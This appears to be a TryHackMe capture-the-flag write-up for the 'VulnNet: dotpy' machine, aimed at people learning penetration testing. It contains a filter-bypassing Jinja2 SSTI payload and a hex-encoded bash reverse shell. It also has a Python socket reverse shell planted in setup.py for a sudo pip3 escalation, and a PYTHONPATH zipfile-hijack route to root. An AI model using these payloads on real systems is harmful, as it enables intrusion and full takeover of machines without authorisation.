 ```yaml
---
title: "VulnNet: dotpy TryHackMe"
layout: post
date: 2023-09-20 19:00
tag: 
- TryHackMe
- Pentesting
- VulnNet
- Linux
- SSTI
- Meduim
- Python
- Hijacking
image: https://tryhackme-images.s3.amazonaws.com/room-icons/d0b3851085d530abbff79210cea04b5d.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

This machine is a python focused machine that was designed to be a bit more challenging but without anything too complicated. It requires to not only find a vulnerable endpoint but also bypass its security protection. We should also pay attention to the output the website gives us.

---

# Nmap

```bash
nmap -A -T4 10.10.113.156
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-06 10:51 +01
Nmap scan report for 10.10.113.156
Host is up (0.099s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.113.156:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
```

I only have one open port which contains a login page :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105356.png>)

Firstly, I created an account called test :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105644.png>)

Then I am in I see dashboard in front of me, I checked all its options but nothing seemed suspicious :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106105742.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110548.png>)

While I was looking for a venerable point to exploit, I found that when I go to some endpoint that doesn't exist, the name of the directory is reflected on the error page, so I thought directly about XSS and SSTI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110828.png>)

And yes is is really vulnerable to SSTI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106110759.png>)

I noticed that there is a filtering on the input provided by the user :

```python
self.__init__.__globals__.__builtins__.__import__("os").popen("id").read()
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106111411.png>)

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

After a lot of tries I found the right payload :

```python
request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106113521.png>)

Now I will try to get a reverse shell :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106114320.png>)

```python
request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x62\x61\x73\x68\x20\x2d\x63\x20\x27\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x30\x2e\x39\x2e\x31\x2e\x31\x31\x37\x2f\x39\x39\x39\x39\x20\x30\x3e\x26\x31\x27')|attr('read')()
```

And I am in as web user :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106114301.png>)

# web -> system-adm

Checking the privileges of our current user we see that we can run pip3 as `system-adm` user :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106121552.png>)

[https://gtfobins.github.io/gtfobins/pip](https://gtfobins.github.io/gtfobins/pip)

I created a setup.py file that contains the content bellow and uploaded to the remote machine :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.117",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Voilà I got a shell as `system-adm` user : 

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122922.png>)

Now I can read the user flag :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122439.png>)

# PE

Running sudo -l again, it shows that we can run change the PYTHONPATH variable and run the `/opt/backup.py` owned by root : 

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122017.png>)

```python
from datetime import datetime
from pathlib import Path
import zipfile

OBJECT_TO_BACKUP = '/home/manage'  # The file or directory to backup
BACKUP_DIRECTORY = '/var/backups'  # The location to store the backups in
MAX_BACKUP_AMOUNT = 300  # The maximum amount of backups to have in BACKUP_DIRECTORY
object_to_backup_path = Path(OBJECT_TO_BACKUP)
backup_directory_path = Path(BACKUP_DIRECTORY)
assert object_to_backup_path.exists()  # Validate the object we are about to backup exists before we continue
# Validate the backup directory exists and create if required
backup_directory_path.mkdir(parents=True, exist_ok=True)
# Get the amount of past backup zips in the backup directory already
existing_backups = [
    x for x in backup_directory_path.iterdir()
    if x.is_file() and x.suffix == '.zip' and x.name.startswith('backup-')
]
# Enforce max backups and delete oldest if there will be too many after the new backup
oldest_to_newest_backup_by_name = list(sorted(existing_backups, key=lambda f: f.name))
while len(oldest_to_newest_backup_by_name) >= MAX_BACKUP_AMOUNT:  # >= because we will have another soon
    backup_to_delete = oldest_to_newest_backup_by_name.pop(0)
    backup_to_delete.unlink()
# Create zip file (for both file and folder options)
backup_file_name = f'backup-{datetime.now().strftime("%Y%m%d%H%M%S")}-{object_to_backup_path.name}.zip'
zip_file = zipfile.ZipFile(str(backup_directory_path / backup_file_name), mode='w')
if object_to_backup_path.is_file():
    # If the object to write is a file, write the file
    zip_file.write(
        object_to_backup_path.absolute(),
        arcname=object_to_backup_path.name,
        compress_type=zipfile.ZIP_DEFLATED
    )
elif object_to_backup_path.is_dir():
    # If the object to write is a directory, write all the files
    for file in object_to_backup_path.glob('**/*'):
        if file.is_file():
            zip_file.write(
                file.absolute(),
                arcname=str(file.relative_to(object_to_backup_path)),
                compress_type=zipfile.ZIP_DEFLATED
            )
# Close the created zip file
zip_file.close()
```

Analyzing the source code of the file, we see that it imports the zipfile python library, so I directly thought about python library hijacking.

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106122351.png>)

I created a malicious zipfile in /tmp which spawns a root shell and I made it executable :

```python
import os
os.system('/bin/bash')
```

The I changed the PYTHONPATH to point on the /tmp folder :

```bash
chmod +x zipfile.py
sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
```

BOOM I got a shell as root :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231106121827.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>